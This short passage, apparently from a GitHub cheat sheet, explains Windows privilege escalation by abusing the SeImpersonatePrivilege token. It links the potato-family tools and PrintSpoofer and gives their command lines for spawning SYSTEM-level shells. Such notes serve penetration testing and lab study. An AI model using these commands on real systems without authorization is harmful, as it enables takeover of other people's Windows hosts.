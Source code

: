 Any process holding this privilege can impersonate (but not create) any token for which it is able to gethandle.
You can get a privileged token from a Windows service (DCOM) making it perform an NTLM authentication against the exploit, then execute a process as SYSTEM.
Exploit it with [juicy-potatato](https://github.com/ohpe/juicy-potato) or [RougueWinRM](https://github.com/antonioCoco/RogueWinRM) (need winRM disabled) or [SweetPotato](https://github.com/CCob/SweetPotato) or [PrintSpoofer](https://github.com/itm4n/PrintSpoofer).


Some commands for these tools:

1. PrintSpoofer (My favorite) : ```PrintSpoofer.exe -i -c powershell```
![demo](https://user-images.githubusercontent.com/81341961/148654464-e8ba8203-5e7c-4ee2-a810-4e2f951381e6.gif)
2. RogueWinRM : ```RogueWinRM.exe -p C:\windows\system32\cmd.exe``` or ```RogueWinRM.exe -p C:\windows\system32\cmd.exe -a "powershell"```
3. SweetPotato : ```SweetPotato.exe -a whoami```
